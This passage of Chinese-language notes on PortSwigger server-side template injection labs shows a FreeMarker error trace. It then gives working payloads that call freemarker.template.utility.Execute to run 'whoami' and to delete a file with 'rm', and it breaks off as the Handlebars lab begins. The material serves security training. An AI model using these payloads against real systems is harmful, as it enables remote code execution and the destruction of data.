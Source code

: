 
插入 `${aaa}` 會噴一堆 Java 的 Error

```
 FreeMarker template error (DEBUG mode; use RETHROW in production!): The following has evaluated to null or missing: ==> aaa [in template "freemarker" at line 1, column 3] ---- Tip: If the failing expression is known to legally refer to something that's sometimes null or missing, either specify a default value like myOptionalVar!myDefault, or use <#if myOptionalVar??>when-present<#else>when-missing</#if>. (These only cover the last step of the expression; to cover the whole expression, use parenthesis: (myOptionalVar.foo)!myDefault, (myOptionalVar.foo)?? ---- ---- FTL stack trace ("~" means nesting-related): - Failed at: ${aaa} [in template "freemarker" at line 1, column 1] ---- Java stack trace (for programmers): ---- freemarker.core.InvalidReferenceException: [... Exception message was already printed; see it above ...] at freemarker.core.InvalidReferenceException.getInstance(InvalidReferenceException.java:134) at freemarker.core.EvalUtil.coerceModelToTextualCommon(EvalUtil.java:479) at freemarker.core.EvalUtil.coerceModelToStringOrMarkup(EvalUtil.java:401) at freemarker.core.EvalUtil.coerceModelToStringOrMarkup(EvalUtil.java:370) at freemarker.core.DollarVariable.calculateInterpolatedStringOrMarkup(DollarVariable.java:100) at freemarker.core.DollarVariable.accept(DollarVariable.java:63) at freemarker.core.Environment.visit(Environment.java:331) at freemarker.core.Environment.visit(Environment.java:337) at freemarker.core.Environment.process(Environment.java:310) at freemarker.template.Template.process(Template.java:383) at lab.actions.templateengines.FreeMarker.processInput(FreeMarker.java:56) at lab.actions.templateengines.FreeMarker.main(FreeMarker.java:40) 
```

所以可以合理推論這是一個 Java 的 SSTI，還看到了關鍵字 FreeMaker


順利 RCE

```
${"freemarker.template.utility.Execute"?new()("whoami")}
```

刪除指定檔案
```
${"freemarker.template.utility.Execute"?new()("rm /home/carlos/morale.txt")}
```

## [Lab: Server-side template injection in an unknown language with a documented exploit](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit)

### 題目敘述
 This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. 
### 題目解釋
猜 Template (Nodejs 的 handlebars)，然後 RCE

### 解答

點第一篇會跳成
